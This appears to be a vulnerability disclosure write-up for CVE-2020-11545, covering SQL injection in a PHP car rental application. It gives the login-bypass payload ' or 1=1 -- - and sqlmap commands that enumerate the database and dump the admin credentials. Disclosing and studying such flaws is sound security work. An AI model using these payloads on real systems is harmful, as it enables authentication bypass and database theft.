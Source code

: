 ```yaml
---
title: "CVE-2020-11545"
date: "2020-04-05"
author: frosty
categories: "cve"
tags: "cve"
---
```


[Project Worlds Official Car Rental System 1](https://github.com/projectworldsofficial/Car-Rental-Syatem-PHP-MYSQL) is vulnerable to multiple SQL injection issues, as demonstrated by below.

<figure>

| Parameter | Filename |
| --- | --- |
| \- `email`
\- `pass` | account.php |
| \- `uname`
\- `pass` | login.php |
| \- `id` | book\_car.php |

Vulnerable parameters for the files.

**Impact**: These vulnerabilities allows an attacker to dump the MySQL database and to bypass the login authentication prompt.

* * *

## Discovering the Vulnerabilities

I installed the Project on my Ubuntu VM using Apache2 and MySQL. There are two different login pages depending on the type of user - customer or administrator. Customers are supposed to login with `account.php`, administrators are supposed to login with `login.php`. After static code analysis, I saw that the user inputs are not sanitized. Rather, user input is used directly in the query to the SQL database.

I further analyzed the web application, and saw a potential vulnerable URL on `book_car.php`. I intercepted the GET request and saved it to a file which I could then import to sqlmap for further testing.

## Verifying the Vulnerabilities

#### account.php

![Image](assets/img/cve/2020-11545/image-40.png)

Payload: `' or 1=1 -- -`

![Image](assets/img/cve/2020-11545/image-29.png)

![Image](assets/img/cve/2020-11545/image-31.png)

![Image](assets/img/cve/2020-11545/image-32.png)

* * *

##### login.php

![Image](assets/img/cve/2020-11545/image-39.png)

Payload: `' or 1=1 -- -`

![Image](assets/img/cve/2020-11545/image-33.png)

![Image](assets/img/cve/2020-11545/image-34.png)

![Image](assets/img/cve/2020-11545/image-36.png)

##### book\_car.php

![Image](assets/img/cve/2020-11545/image-41.png)

I intercepted the GET request to list the details of the car, and saved it to a file. Following this, I used the sqlmap tool to test for vulnerabilities.

```
# URL: /book_car.php?id=1
$ sqlmap -r <book_car_request> -o
```

![Image](assets/img/cve/2020-11545/image-37.png)

We are able to use SQLmap to further enumerate the database:

```
$ sqlmap -r <book_car_request> --current-db
[...]
[11:58:47] [INFO] fetching current database
current database: 'cars'
```

```
$ sqlmap -r <book_car_request> -D cars --tables
[...]
Database: cars
[5 tables]
+---------+
| admin   |
| cars    |
| client  |
| hire    |
| message |
+---------+
```

```
$ sqlmap -r <book_car_request> -D cars -T admin --dump
[...]
Database: cars
Table: admin
[1 entry]
+----------+-------+-------+
| admin_id | pass  | uname |
+----------+-------+-------+
| 1        | admin | admin |
+----------+-------+-------+
```
